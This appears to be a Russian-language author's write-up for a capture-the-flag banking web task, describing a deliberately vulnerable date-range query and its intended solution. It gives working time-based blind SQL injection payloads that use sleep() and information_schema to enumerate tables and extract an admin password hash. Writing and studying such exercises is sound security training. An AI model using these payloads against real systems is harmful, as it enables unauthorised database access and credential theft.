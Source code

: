 31337 investments:
Есть регистрация и логин.
В регистрации 2 поля: логин, пароль.
После реги идет автоматический логин.
Регистрация и логин без уязвимостей.
Доступны 4 функции:
Общий баланс, Пополнить баланс, Снять деньги, Доходность счета за период, История транзакций.
Внутри есть 2 таблицы: users, transactions.
В users 3 колонки: id, login, password.
В transactions их 6: id, user, value, percent, date.
Задача: увести пароль админа.
При регистрации пользователю автоматически зачисляется бонус 1337 рублей.
Баланс: SELECT SUM(value) as sum FROM `transactions` WHERE `user`='asd'
Пополнить баланс: текстовое поле, приводится к инту, может быть только положительным - не уязвимо. Создается транзакция: {id=id, user=login, value=money, message='Пополнение счета', date=date}
Снять деньги: текстовое поле и кнопка, по нажатию на которую "извините, хуй".
История счета за период с x, по y:
ползунок(jquery) и кнопка "показать"
Доходность: SELECT SUM(value) as sum FROM `transactions` WHERE `user`='user' AND (`date` BEETWEEN x AND y)
Транзакции: SELECT * FROM `transactions` WHERE `user`='user' AND (`date` BEETWEEN x AND y)

Таким образом в диапозон дат можно засунуть инъекцию.
Казалось бы, доходноть на страницу выводится, да и сами транзакции тоже - поэтому это не слепая инъекция, ведь мы видим результат запроса. Но, из-за того, что запроса к БД 2, и в них разное количество колонок, то union injection обречен на ошибку, а раз ошибка, то ничего выводится не будет.
Каждый запрос на главную человеку зачисляется random()% прибыли. (всегда +)
================================================================================
Как хакать:
sql injection в поле диапозона дат.
"'" не проканывает, "')" тоже. проканывает только "', '')" из-за функции STR_TO_DATE - но если это сложно для олимпиады, можно убрать STR_TO_DATE, и будет "')".
Т.е уязвимый запрос:
SELECT SUM(value) FROM `transactions` WHERE `user`='admin' AND `date` BETWEEN STR_TO_DATE('ololo', '%Y-%m-%d %H:%i') AND STR_TO_DATE('injection_here', '') UNION SELECT ...-- 

Так как и UNION SELECT, и ORDER BY обломятся либо на SELECT SUM(value) либо на SELECT *, то инъекция слепая.
Начинаем раскручивать, вместо ... постепенно вставляем такие запросы:
1) бинарным поиском ищем названия таблиц, меняя ascii номер и в limit указывая какую по счету таблицу подбираем.
if(ascii(substring((SELECT table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))<110, sleep(5), null)-- 
2) зная имя таблицы `hamsters` можно угадать, что внутри нее есть колонки id, user, pass. но можно и их пробрутить:
if(ascii(substring((SELECT column_name from information_schema.columns where table_schema=database() and table_name='hamsters' limit 0,1),1,1))<110, sleep(5), null)-- 
3) зная имена колонок можно догадаться, что id админа первый, или что user у него 'admin'. теперь брутим его md5
if(ascii(substring((SELECT `pass` from `hamsters` where `user`='admin' limit 0,1),1,1))<110, sleep(5), null)-- 
4) md5 и будет флагом
